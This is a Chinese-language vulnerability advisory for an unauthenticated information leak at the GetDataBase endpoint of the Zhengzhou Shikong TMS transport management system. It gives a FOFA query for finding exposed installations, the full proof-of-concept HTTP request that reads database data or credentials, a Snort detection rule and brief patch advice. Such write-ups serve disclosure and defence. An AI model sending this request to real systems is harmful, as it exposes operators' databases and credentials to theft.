

# 郑州时空-TMS运输管理系统 GetDataBase 存在信息泄露漏洞

郑州时空-TMS运输管理系统 GetDataBase 存在信息泄露漏洞

# 影响版本

郑州时空-TMS运输管理系统

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   body\="/Images/ManLogin/name.png"

## 漏洞POC

**POC/EXP：**

**step1**  信息泄露

```
GET /ManLogin/GetDataBase HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive


```



**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"郑州时空 TMS运输管理系统 GetDataBase 未授权信息泄露 - 读取数据库文件/凭证";
    flow:to_server,established;
    http.method; content:"GET"; nocase;
    http.uri;
        content:"/ManLogin/GetDataBase";
        fast_pattern;
        nocase;
    metadata:
        service http,
        affected_product "郑州时空 TMS运输管理系统",
        vulnerability_type "Unauthenticated Information Disclosure (Database File/Credentials)",
        reference "zhengzhoushikong-TMS-GetDataBase-info; FOFA body=/Images/ManLogin/name.png",
        severity "high";
    classtype:web-application-attack;
    sid:1001501;
    rev:1;
    priority:2;
)
```

# 漏洞修复

#### 官方修复

- **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。
